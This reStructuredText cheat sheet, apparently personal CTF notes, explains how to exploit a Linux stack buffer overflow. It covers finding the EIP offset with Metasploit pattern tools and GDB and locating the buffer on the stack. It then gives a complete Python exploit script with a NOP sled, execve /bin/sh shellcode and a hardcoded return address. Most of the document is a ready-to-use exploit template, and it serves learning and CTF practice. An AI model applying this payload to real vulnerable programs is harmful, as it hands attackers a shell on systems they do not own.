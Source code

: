 How To BoF Linux
********************

Find EIP Offset
##################

Run msf-patter_create
++++++++++++++++++++++++

.. code-block:: console

   msf-pattern_create -l <random_number>
   msf-pattern_create -l 400

Start GDB
+++++++++++++++

.. code-block:: console

   gdb <file>
   gdb chal

Feed msf-patter_create string into program
+++++++++++++++++++++++++++++++++++++++++++++++++

With this make sure you look for output of EIP.

.. code-block:: console

   r <output of msf-pattern_create>

Assuming we ran this command we find this

.. code-block:: console

   0x316d4130 ('0Am1')

Run msf-patter_offset
++++++++++++++++++++++++

.. code-block:: console

   msf-pattern_offset -q <output of EIP>
   msf-pattern_offset -q 0AM1
 
Lets assume you get the output of `Exact match at offset 362`. You then run this in python and copy it in gdb

.. code-block:: console

   python -c 'print("A"*<number from offset> + "BBBB")'
   python -c 'print("A"*362 + "BBBB")'

   gdb -q <file>

   r <output of python>

This should result in EIP looking like this: `$eip   : 0x42424242 ("BBBB"?)`


Find Address of Buffer
########################

Go back to remote shell and run `gdb -q <file>`. Then run `b main`. Run the following

.. code-block:: console

    r $(python -c 'print "A"*400')

Check out the stack

.. code-block:: console

        x/64xw $esp

python3 exploit

.. code-block:: console

        #!/usr/bin/env python3
        import sys
        offset = 362
        shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
        nop = b"\x90" * (offset - len(shellcode))
        EIP = b"\x54\xf7\xff\xbf"

        payload = nop + shellcode + EIP

        sys.stdout.buffer.write(payload)

Execute the program with the buffer overflow

.. code-block:: console

   <bof_program> $(python3 exploit)
